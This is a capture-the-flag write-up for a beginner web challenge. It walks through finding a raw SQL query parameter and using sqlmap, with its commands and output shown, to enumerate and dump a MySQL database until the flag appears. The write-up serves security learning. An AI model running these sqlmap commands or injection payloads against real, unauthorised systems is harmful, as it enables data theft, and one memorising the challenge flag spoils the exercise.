

# Planets

## Description

> I just started programming and created my [first website](http://planets.ctf.zone), an overview of all the planets in our solar system. Can you check if I didn't leave any security issues in it?

## Solution

We have a simple web page showing different planets.



Checking the HTTP history, there is an interesting POST request to `/api.php` - the body contains an SQL query.


```sql
query=SELECT * FROM planets
```


The response has a JSON object containing all the planets and their properties. Of course, we suspect SQL injection and this was a quick one; we can run SQLMap to dump the database.

### SQL Injection

I start by copying the HTTP request content from burp into a file called `req`, then run SQLMap in batch mode (auto-answer questions).


```bash
sqlmap -r req --batch
```


We get a successful payload.


```bash
(custom) POST parameter '#1*' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 59 HTTP(s) requests:
---
Parameter: #1* ((custom) POST)
    Type: inline query
    Title: Generic inline queries
    Payload: query=SELECT (SELECT CONCAT(CONCAT('qvzqq',(CASE WHEN (4195=4195) THEN '1' ELSE '0' END)),'qpqvq')) FROM planets
---
```


Confirmation that the DB is MySQL.


```bash
[INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Apache 2.4.58
back-end DBMS: MySQL >= 8.0.0
```


Next, we can list the databases.


```bash
sqlmap -r req --batch --dbs

available databases [3]:
[*] information_schema
[*] performance_schema
[*] planets
```


We should check `planets` and see what tables it contains.


```bash
sqlmap -r req --batch -D planets --tables

+-------------------+
| abandoned_planets |
| planets           |
+-------------------+
```


The `abandoned_planets` table sounds interesting, we'll list the columns.


```bash
sqlmap -r req --batch -D planets -T abandoned_planets --columns

+-------------+------+
| Column      | Type |
+-------------+------+
| description | text |
| name        | text |
| id          | int  |
| image       | text |
+-------------+------+
```


Dump the interesting fields from the database.


```bash
sqlmap -r req --batch -D planets -T abandoned_planets -C name,description --dump

+--------+--------------------------------------------------------------------------------------------+
| name   | description                                                                                |
+--------+--------------------------------------------------------------------------------------------+
| Pluto  | Have you heard about Pluto? That's messed up right? flag{9c4dea2d8ae5681a75f8e670ac8ba999} |
+--------+--------------------------------------------------------------------------------------------+
```


We have our first flag 😼

Flag: `flag{9c4dea2d8ae5681a75f8e670ac8ba999}`
